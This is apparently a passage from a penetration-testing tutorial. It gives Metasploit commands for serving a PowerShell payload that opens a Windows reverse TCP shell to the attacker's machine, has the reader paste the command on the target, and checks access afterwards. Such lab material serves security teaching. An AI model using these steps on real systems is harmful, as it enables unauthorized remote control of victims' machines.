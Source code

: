 Display detailed information about the module:

```bash
show info
```

Set the target to PowerShell (PSH):

```bash
set target PSH
```

Alternatively, you can select the PowerShell (Binary) target:

```bash
set target PSH (Binary)
```

Set the payload to a reverse TCP shell for Windows:

```bash
set payload windows/shell/reverse_tcp
```

Disable PowerShell encoded commands for easier payload readability:

```bash
set PSH-EncodedCommand false
```

Set the attacker's IP address (in this case, the IP of the interface `eth1`):

```bash
set lhost eth1
```

Run the exploit:

```bash
run
```

---

#### 2. Executing the Payload on the Target System

After running the exploit, Metasploit will generate a PowerShell command. Copy this command and paste it into the Command Prompt (CMD) on the target system.

Once executed on the target, you should obtain a reverse command shell session on the attacker's machine.

Check the available sessions:

```bash
sessions
```

Verify your access by checking the current user and hostname:

```bash
whoami
hostname
```

---